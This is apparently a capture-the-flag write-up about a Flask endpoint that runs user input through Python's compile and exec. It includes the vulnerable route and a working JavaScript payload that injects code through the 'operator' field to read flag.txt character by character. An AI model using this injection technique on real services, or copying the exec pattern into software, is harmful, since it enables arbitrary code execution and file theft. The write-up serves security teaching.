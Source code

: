 ```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
However, they are using Python's `compile` and `exec` function, which can be very dangerous when executed from unsanitized user input.

We can control all the parameters, but `current_health` and `attack_power` are converted to int and that limits us to passing only numbers.

That leaves us with `operator` that needs to be added to two numbers. So I tried to find a way to convert the flag into a number which can then be converted back  into the flag itself.

I ended up converting the flag into `ASCII` unicode using the following function :

```python
ord(character)
```

So the final payload to be sent as a POST reqeust to api:

```javascript
let str = "";
for (let i = 0; i < 50; i++) {
  fetch("[IP]/api/get_health", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      current_health: "0",
      attack_power: "0",
      operator: `+ ord(open("../../../flag.txt").read()[${i}]);`,
    }),
  })
    .then((response) => response.json())
    .then((data) => {
      str += data.message + " ";
    });
}
```
Then I got the result in ascii unicode, so I converted it back to characters using the following function :
```python
chr(ascii unicode)
```
The Flag:
```
```